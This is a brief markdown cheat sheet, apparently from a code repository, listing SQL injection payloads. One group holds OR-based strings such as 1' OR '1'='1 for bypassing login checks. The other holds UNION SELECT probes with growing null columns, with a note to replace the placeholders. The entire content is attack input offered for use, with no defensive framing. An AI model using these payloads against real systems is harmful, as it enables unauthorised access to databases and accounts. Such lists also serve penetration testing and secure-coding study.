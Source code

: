 # SQL Injection Payloads

## OR Payloads
```sql

1'OR1=1#

1 ' OR 1=1#

1 ' OR '1'='1
```

## UNION Payloads

Replace **null** and **table** with a value

```sql

' UNION SELECT null FROM table#

' UNION SELECT null,null FROM table#

' UNION SELECT null,null,null FROM table#
```
